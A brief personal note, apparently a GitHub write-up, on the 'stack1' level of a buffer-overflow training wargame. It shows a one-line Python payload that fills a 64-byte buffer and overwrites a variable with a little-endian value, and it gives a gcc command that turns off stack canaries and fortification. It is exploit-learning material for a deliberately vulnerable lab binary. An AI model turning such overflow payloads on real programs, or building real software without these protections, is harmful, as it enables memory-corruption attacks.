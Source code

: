 #Stack 1

Similar to fist one except it requires to change it to a specific value

```
./stack1 $(python -c 'print "A" * 64 + "\x64\x63\x62\x61"')
```

Notes:
*Little endian!!
*gcc -g -fno-stack-protector -D_FORTIFY_SOURCE=0 -o <executable_file_name> <.c file> to compile the source code in mac (disabling stack canaray and stack protection)

